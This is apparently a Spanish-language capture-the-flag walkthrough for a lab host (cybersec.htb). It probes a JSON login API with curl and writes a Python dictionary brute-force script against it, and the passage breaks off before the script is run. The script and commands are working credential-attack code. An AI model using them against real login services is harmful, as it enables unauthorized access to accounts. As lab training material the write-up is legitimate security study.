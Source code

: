![image](https://github.com/user-attachments/assets/cca134ee-fc2e-4928-8041-e31b34441888)

observamos que nos indica "Metodo no Permitido" por lo que debe ser `POST` asi que pruebo con `curl`

```bash
curl -X POST http://cybersec.htb/api/login
```
```bash
<!doctype html>
<html lang=en>
<title>400 Bad Request</title>
<h1>Bad Request</h1>
<p>Did not attempt to load JSON data because the request Content-Type was not &#39;application/json&#39;.</p>
```
observamos que espera `Content-Type: application/json` asi que tambien espera credenciales asi que continuo testeando

```bash
curl -X POST http://cybersec.htb/api/login -H "Content-Type: application/json" -d '{"username": "admin", "password": "1234"}'
```
```bash
{
  "message": "Invalid credentials"
}
```
ya teniendo esta base, realizare un ataque de diccionario usando usuarios por defecto como admin o administrator... para esto desarrollo un script en python, pero
primero me creo una wordlist con los usuarios

```bash
echo "admin" > users.txt && echo "administrator" >> users.txt
```

brute-force-api.py
```python
import requests
import json

# URL de la API
url = 'http://cybersec.htb/api/login'

# Función para leer una wordlist desde un archivo
def leer_wordlist(file_path):
    with open(file_path, 'r', encoding='latin-1') as file:
        return [line.strip() for line in file]

# Función para realizar el ataque de fuerza bruta
def brute_force_attack(usernames, passwords):
    headers = {
        'Content-Type': 'application/json'
    }
    for username in usernames:
        for password in passwords:
            data = {
                'username': username,
                'password': password
            }
            response = requests.post(url, headers=headers, data=json.dumps(data))

            # Verificar si la respuesta indica un inicio de sesión exitoso
            if 'success' in response.text:
                print(f'[+] ¡Credenciales encontradas! Usuario: {username}, Contraseña: {password}')
                return
```